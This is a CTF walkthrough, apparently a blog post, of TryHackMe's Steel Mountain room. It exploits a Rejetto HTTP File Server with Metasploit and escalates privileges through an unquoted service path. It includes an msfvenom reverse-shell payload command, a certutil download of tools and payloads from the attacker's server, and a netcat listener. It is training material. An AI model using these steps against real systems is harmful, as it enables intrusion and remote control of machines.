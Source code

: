 ```yaml
---
title: "Exploit a Rejetto HTTP File Server in Steel Mountain CTF from TryHackMe"
datePublished: Fri Aug 04 2023 01:48:21 GMT+0000 (Coordinated Universal Time)
cuid: clkvxfn7l000409mgdiuw5j7o
slug: exploit-a-rejetto-http-file-server-in-steel-mountain-ctf-from-tryhackme
cover: https://cdn.hashnode.com/res/hashnode/image/upload/v1691631388854/ef6dc52d-c862-4a1e-8a9e-ed0ee93fe8b3.png
tags: ctf, 2articles1week, cybersecurity-1, tryhackme, ctf-writeup

---
```


This walkthrough covers the [Steel Mountain](https://tryhackme.com/room/steelmountain) CTF found on [TryHackMe](https://tryhackme.com). This room is designed to evaluate our Windows OS enumeration skills. We will utilize Metasploit to gain an initial foothold, followed by PowerShell to enumerate the machine and escalate our privileges to Administrator.

### Step 1: Nmap

Note: ICMP is disabled, so we'll have to use the `-Pn` flag.

```bash
nmap -Pn -p- 10.10.0.5 -vvv
```

```plaintext
PORT      STATE SERVICE       REASON
80/tcp    open  http          syn-ack ttl 125
135/tcp   open  msrpc         syn-ack ttl 125
139/tcp   open  netbios-ssn   syn-ack ttl 125
445/tcp   open  microsoft-ds  syn-ack ttl 125
3389/tcp  open  ms-wbt-server syn-ack ttl 125
5985/tcp  open  wsman         syn-ack ttl 125
8080/tcp  open  http-proxy    syn-ack ttl 125
47001/tcp open  winrm         syn-ack ttl 125
49152/tcp open  unknown       syn-ack ttl 125
49153/tcp open  unknown       syn-ack ttl 125
49154/tcp open  unknown       syn-ack ttl 125
49155/tcp open  unknown       syn-ack ttl 125
49156/tcp open  unknown       syn-ack ttl 125
49169/tcp open  unknown       syn-ack ttl 125
49170/tcp open  unknown       syn-ack ttl 125
```

From this scan, we can tell that there are two web servers, one of which will be our attack vector to get an initial foothold. Visiting the site on port 80 reveals nothing more than a static page for an employee of the month. Looking at the source code helps us identify a name, *Bill Harper*.

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1691113410117/78e26866-6de1-4595-be30-97a365a1f41d.png align="center")

Moving on over to port 8080 proves to be a little more useful. Right off the bat, we can tell this is a user panel to an HTTP File Server.

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1691113421551/bc9e5d0c-c6e1-4afa-b566-06f0457b7432.png align="center")

Looking at the source code helps us narrow it down to a `Rejetto HTTP File Server`. This is great news because this version is vulnerable to an RCE and Metasploit has a module for it called `rejetto_hfs_exec`.

### Step 2: Metasploit

From here we want to search for the `rejetto` module and configure the options.

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1691113447324/e218eed9-4f8a-4eba-9d05-7524c6b5065a.png align="center")

After properly configuring the module and typing `exploit`, we get a meterpreter session and pop a shell to grab our first flag located in `C:\Users\bill\Deskto`p. Use `type user.txt` to view it from the command line.

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1691113460353/562ce6d7-e56d-4eac-a48b-91d53837ca0b.jpeg align="center")

### Step 3: Privilege Escalation

To enumerate this machine, we will use `winPEAS`. You can download the latest version [here](https://github.com/carlospolop/PEASS-ng/releases/latest/download/winPEASany_ofs.exe).

Start a Python server:

```bash
python3 -m http.server 8000
```

Upload `winPEAS` to the victims `C:\Users\bill\Desktop` directory using `certutil.exe`.

```bash
certutil.exe -urlcache -f http://10.13.28.215:8000/winPEASany_ofs.exe winPEASany_ofs.exe
```

Run it by typing `winPEASany_ofs.exe` .

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1691113544053/f7884b90-58a2-4667-8890-5edb05a79ea5.png align="center")

An interesting service called `AdvancedSystemCareService9` is missing quotes and has a space in between the application name, which means we can escape it and run a program called "`Advanced.exe`" with a reverse shell.

Let's fire up `msfvenom` and generate a payload.

```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.13.28.215 LPORT=1337 -f exe -o Advanced.exe
```

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1691113567782/e5c99dee-d106-4144-97c9-93556990079a.png align="center")

Startup a Python server and transfer the payload over using `certutil`.

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1691113578290/4def3399-0d65-4e33-b741-97c14bfa9e6a.png align="center")

Move it to "`C:\Program Files (x86)\IObit\"`, and be sure to put the file path in quotes due to the space.

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1691113586235/85a1fdb6-3607-409b-a1ec-f298d39db15e.png align="center")

Now we want to stop the `AdvancedSystemCareService9` service.

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1691113596097/f50abfb1-56d2-4a7e-9f8d-4c63d9d49cfa.png align="center")

Start a netcat listener to catch the reverse shell.

```bash
nc -lvnp 1337
```

Start the `AdvancedSystemCareService9` service back up.

### Step 4: Root

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1691113623575/0623872a-2d25-4ac6-9184-30c48c6e7d1a.png align="center")

Pwned! From here we can grab the last flag found in `C:\Users\Administrator\Desktop`.

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1691113632364/117dcb66-121f-481e-88b2-32df16cf5710.jpeg align="center")

I hope you enjoyed this walkthrough of the [Steel Mountain](https://tryhackme.com/room/steelmountain) CTF found on [TryHackMe](https://tryhackme.com). Happy Hacking.